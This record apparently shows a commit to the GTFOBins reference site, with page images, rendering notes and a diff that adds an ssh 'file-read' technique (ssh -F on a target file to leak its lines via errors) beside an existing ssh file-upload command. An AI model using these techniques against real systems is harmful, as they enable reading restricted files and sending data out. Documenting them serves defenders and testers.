

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add file-read to ssh

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -17,4 +17,9 @@ functions:
         RPATH=where_to_save
         LPATH=file_to_send
         ssh $HOST "cat > $RPATH" < $LPATH
+  file-read:
+    - description: Read lines from text files (error-based approach).
+    - code: |
+        LFILE=file_to_read
+        ssh -F $LFILE localhost
 ---
```
